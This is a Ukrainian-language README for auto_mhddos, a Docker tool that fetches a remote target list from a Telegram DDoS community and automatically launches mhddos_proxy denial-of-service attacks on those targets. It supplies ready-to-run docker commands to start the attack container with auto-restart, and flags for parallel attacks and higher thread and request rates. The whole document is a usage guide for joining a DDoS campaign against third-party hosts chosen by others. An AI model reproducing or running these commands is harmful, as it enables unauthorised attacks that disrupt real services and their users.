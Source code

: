 ### 👉 [English](./README.md)

### 👉 [Русский](./README.ru.md)

# [auto_mhddos](https://github.com/theorlovsky/auto_mhddos) – інструмент для автоматизації роботи [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

Цей інструмент під час роботи періодично буде
підтягувати [цілі](https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner_targets)
від спільноти [Український Жнець](https://t.me/ukrainian_reaper_ddos) та атакувати їх. Вам не потрібно власноруч перезапускати контейнер.

## Встановлення

Встановіть Docker:

- [Windows](https://docs.docker.com/desktop/windows/install/)
- [Linux](https://docs.docker.com/engine/install/#server)
- [Mac](https://docs.docker.com/desktop/mac/install/)

ВАЖЛИВО: в залежності від обраного метода, вам може знадобитися запускати команди докера від імені root
користувача (`sudo docker run ...`).

## Застосування

### Запустити у фоні

```shell
docker run -dit --name auto_mhddos --restart unless-stopped --pull always ghcr.io/theorlovsky/auto_mhddos:latest
```

### Подивитися логи

```shell
docker logs -f auto_mhddos
```

### Зупинити

```shell
docker rm -f auto_mhddos
```

### Налаштування

Додатково можна передати наступні параметри під час запуску контейнера:

#### `--parallel 2`

За замовчуванням: `1`

Скільки запускати одночасних атак. Краще збільшувати це число поступово (`1`, `2`, `3`), дивлячись при цьому на навантаження на процесор та оперативну пам'ять, щоб знайти оптимальне значення.

#### Також підтримуються усі параметри з [документації mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy#usage) (окрім цілей та `-c`)

### Приклад

```shell
docker run -dit --name auto_mhddos --restart unless-stopped --pull always ghcr.io/theorlovsky/auto_mhddos:latest --parallel 2 -t 2000 --rpc 1000
```
